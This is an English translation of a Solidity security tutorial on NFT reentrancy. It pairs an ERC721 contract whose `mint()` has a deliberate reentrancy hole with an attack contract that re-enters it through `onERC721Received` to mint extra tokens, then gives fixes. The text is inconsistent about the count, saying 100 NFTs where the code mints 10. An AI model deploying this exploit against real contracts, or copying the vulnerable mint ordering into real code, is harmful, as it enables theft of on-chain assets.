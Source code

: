 ```yaml
---
title: S16. NFT Reentrancy Attack
tags:
  - solidity
  - security
  - fallback
  - nft
  - erc721
  - erc1155
---
```


# WTF Solidity S16. NFT Reentrancy Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy\_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will discuss the reentrancy vulnerability in NFT contracts and attack a vulnerable NFT contract to mint 100 NFTs.

## NFT Reentrancy Risk

In [S01 Reentrancy Attack](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/S01_ReentrancyAttack_en/readme.md), we discussed that reentrancy attack is one of the most common attacks in smart contracts, where an attacker exploits contract vulnerabilities (e.g., `fallback` function) to repeatedly call the contract and transfer assets or mint a large number of tokens. When transferring NFTs, the contract's `fallback` or `receive` functions are not triggered. So why is there a reentrancy risk?

This is because the NFT standards ([ERC721](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/34_ERC721_en/readme.md)/[ERC1155](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/40_ERC1155_en/readme.md)) have introduced secure transfers to prevent users from accidentally sending assets to a black hole. If the recipient address is a contract, it will call the corresponding check function to ensure that it is ready to receive the NFT asset. For example, the `safeTransferFrom()` function of ERC721 calls the `onERC721Received()` function of the target address, and a hacker can embed malicious code in it to launch an attack.

We have summarized the functions in ERC721 and ERC1155 that have potential reentrancy risks:

![](./img/S16-1.png)

## Vulnerable Example

Now let's learn an example of an NFT contract with a reentrancy vulnerability. This is an `ERC721` contract where each address can mint one NFT for free, but we can exploit the reentrancy vulnerability to mint multiple NFTs at once.

### Vulnerable Contract

The `NFTReentrancy` contract inherits from the `ERC721` contract. It has two main state variables: `totalSupply` to track the total supply of NFTs and `mintedAddress` to keep track of addresses that have already been minted to prevent a user from minting multiple times. It has two main functions:

- Constructor: Initializes the name and symbol of the `ERC721` NFT.
- `mint()`: Mint function where each user can mint one NFT for free. **Note: This function has a reentrancy vulnerability!**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // Constructor to initialize the name and symbol of the NFT collection
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // Mint function, each user can only mint 1 NFT
    // Contains a reentrancy vulnerability
    function mint() payable external {
        // Check if already minted
        require(mintedAddress[msg.sender] == false);
        // Increase total supply
        totalSupply++;
        // Mint the NFT
        _safeMint(msg.sender, totalSupply);
        // Record the minted address
        mintedAddress[msg.sender] = true;
    }
}
```

### Attack Contract

The reentrancy vulnerability in the `NFTReentrancy` contract lies in the `mint()` function, which calls the `_safeMint()` function in the `ERC721` contract, which in turn calls the `_checkOnERC721Received()` function of the recipient address. If the recipient address's `_checkOnERC721Received()` contains malicious code, an attack can be performed.

The `Attack` contract inherits the `IERC721Receiver` contract and has one state variable `nft` that stores the address of the vulnerable NFT contract. It has three functions:

- Constructor: Initializes the address of the vulnerable NFT contract.
- `attack()`: Attack function that calls the `mint()` function of the NFT contract and initiates the attack.
- `onERC721Received()`: ERC721 callback function with embedded malicious code that repeatedly calls the `mint()` function and mints 10 NFTs.

```solidity
contract Attack is IERC721Receiver {
    NFTReentrancy public nft; // Address of the NFT contract

    // Initialize the NFT contract address
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }

    // Attack function to initiate the attack
    function attack() external {
        nft.mint();
    }

    // Callback function for ERC721, repeatedly calls the mint function to mint 10 NFTs
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Reproduce on `Remix`

1. Deploy the `NFTReentrancy` contract.
2. Deploy the `Attack` contract with the `NFTReentrancy` contract address as the parameter.
3. Call the `attack()` function of the `Attack` contract to initiate the attack.
4. Call the `balanceOf()` function of the `NFTReentrancy` contract to check the holdings of the `Attack` contract. You will see that it holds `10` NFTs, indicating a successful attack.

![](./img/S16-2.png)

## How to Prevent

There are two main methods to prevent reentrancy attack vulnerabilities: checks-effects-interactions pattern and reentrant guard.

1. Checks-Effects-Interactions Pattern: This pattern emphasizes checking the state variables, updating the state variables (e.g., balances), and then interacting with other contracts. We can use this pattern to fix the vulnerable `mint()` function:

```solidity
  function mint() payable external {
      // Check if already minted
      require(mintedAddress[msg.sender] == false);
      // Increase total supply
      totalSupply++;
      // Record the minted address
      mintedAddress[msg.sender] = true;
      // Mint the NFT
      _safeMint(msg.sender, totalSupply);
  }
```

2. Reentrant Lock: It is a modifier used to prevent reentrant functions. It is recommended to use [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) provided by OpenZeppelin.

## Summary

In this lesson, we introduced the reentrancy vulnerability in NFTs and attacked a vulnerable NFT contract by minting 100 NFTs. Currently, there are two main methods to prevent reentrancy attacks: the checks-effects-interactions pattern and the reentrant lock.
